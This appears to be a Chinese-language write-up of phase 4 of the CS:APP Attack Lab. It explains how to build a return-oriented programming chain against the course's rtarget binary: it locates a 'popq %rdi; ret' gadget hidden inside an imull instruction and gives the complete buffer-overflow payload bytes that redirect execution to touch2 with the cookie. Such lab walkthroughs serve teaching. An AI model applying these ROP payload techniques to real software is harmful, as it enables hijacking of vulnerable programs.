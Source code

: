 然后进行`ret`指令

```text
address + 0x8: [gadget 2的地址]
address:       [gadget 1的地址]  # <- %rsp 即将ret跳转到gadget1
--------上面是栈的结构----------

gadget 1: bf fa 97 b9 59 c3 # mov <cookie>, %edi; ret
gadget 2: 68 ec 17 40 00 c3 # pushq $0x4017ec; ret然后进入touch2
```

那么一目了然，只需要找到这样的字节码就行，然后在缓冲区输入gadgets的地址就行。

很遗憾我并没有从`farm`相关的字节码找到最核心的`0x4017ec`和`0x59b997fa`

所以我们必须在缓冲区输入这个地址，然后利用`pop`指令，让某个寄存器存放这个值（touch3的地址或者cookie值）

所以进一步推理栈的结构很可能是这:

```text
address + 0x10:[touch2的地址]
address + 0x8: [cookie的值]
address:       [gadget 1的地址]  # <- %rsp 即将ret跳转到gadget1
--------上面是栈的结构----------

gadget 1: popq %rdi;            # 将cookie存放在rdi中
gadget 2: ret;                  # 然后ret进入touch2
```

让我们梳理一下，按照上述的栈结构，发生了什么。

当我们输入好攻击的内容后，栈变成上述内容。然后`getbuf`即将返回，`%rsp`指向ret的地址(已经被我们篡改成gadet 1的地址)。然后`%rsp`再次加0x8，同时我们进入gadet1，执行`pop`指令把cookie存在`%rdi`。pop指令一执行，`%rsp`再次加0x8然后，再紧接着执行gadget2的`ret`，也就是进入`touch3`

也就是，我们需要这样的gadgets:

```text
5f c3 # popq $rdi; ret;
```

在`rtarget.asm`中，很容易找到:

```nasm
  401419: 69 c0 5f c3 00 00            	imull	$0xc35f, %eax, %eax     # imm = 0xC35F
```

所以gadgets的地址是`0x40141b`

所以缓冲区输入`phase4.txt`:

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
ec 17 40 00 00 00 00 00
```
